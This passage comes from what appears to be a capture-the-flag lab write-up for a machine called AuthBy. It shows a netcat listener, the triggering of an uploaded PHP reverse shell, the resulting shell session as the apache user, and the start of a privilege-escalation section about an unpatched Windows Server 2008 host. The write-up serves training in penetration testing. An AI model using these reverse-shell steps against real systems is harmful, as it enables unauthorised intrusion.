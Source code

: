 I started my listener

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4443
listening on [any] 4443 ...
~~~

And navigated to my uploaded shell to execute it at http://192.168.182.46:242/revshell.php

Then I recieved a connection back on my listener, and got the initial foothold!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4443
listening on [any] 4443 ...
connect to [192.168.45.228] from (UNKNOWN) [192.168.182.46] 49158
b374k shell : connected

Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\wamp\www>whoami
whoami
livda\apache
~~~

# Privilege Escalation

After running the 'systeminfo' command when first accessing the target machine, the machine is running Windows Server 2008 with no Hotfixes, which is known to be vulnerable to a wide array of exploits.

![AuthBy](/assets/img/AuthByPG(7).png)
